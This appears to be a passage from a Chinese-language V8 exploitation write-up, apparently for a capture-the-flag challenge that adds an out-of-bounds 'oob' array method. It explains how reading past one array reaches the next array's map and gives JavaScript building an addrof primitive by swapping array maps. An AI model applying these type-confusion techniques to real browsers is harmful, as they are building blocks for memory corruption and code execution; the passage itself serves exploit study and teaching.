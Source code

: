 对第一个数组调用 `oob`，访问的内存为 `0x000003C00810B218 + 0x8 * 0x8 => 0x000003C00810B258`，刚好是第二个数组的 map 所在的位置。

addrof 代码实现如下：

```javascript
let buf = new ArrayBuffer(8);
let f64 = new Float64Array(buf);
let i64 = new BigInt64Array(buf);

function ftoi(f) {
	f64[0] = f;
	return i64[0]
}

function itof(i) {
	i64[0] = i;
	return f64[0];
}

function zero_high_word(i) {
	return i & BigInt("0x00000000ffffffff");
}

function get_map_double_array() {
	let arr = [1.1, 1.2, 1.3]
	return zero_high_word(ftoi(arr.oob()));
}

function get_map_obj_array() {
  let obj = {};
  let arr1 = [obj, obj, obj, obj, obj, obj, obj, obj];
  let arr2 = [obj, obj];
  // arr1.oob will read arr2's map
  return zero_high_word(ftoi(arr1.oob()));
}

function modify_double_arr_map(arr, new_map) {
  old_v = ftoi(arr.oob());
  new_v = old_v & BigInt('0xffffffff0000000') | new_map;
  arr.oob(itof(new_v));
}

double_array_map = get_map_double_array();
obj_array_map = get_map_obj_array();

console.log(double_array_map.toString(16));
console.log(obj_array_map.toString(16));

let arr = [1.1, 1.2, 1.3];

let obj = {}
modify_double_arr_map(arr, obj_array_map)
arr[2] = obj;
modify_double_arr_map(arr, double_array_map)
let addrofobj = ftoi(arr[1]) & BigInt("0x00000000ffffffff");

console.log(addrofobj.toString(16))
```
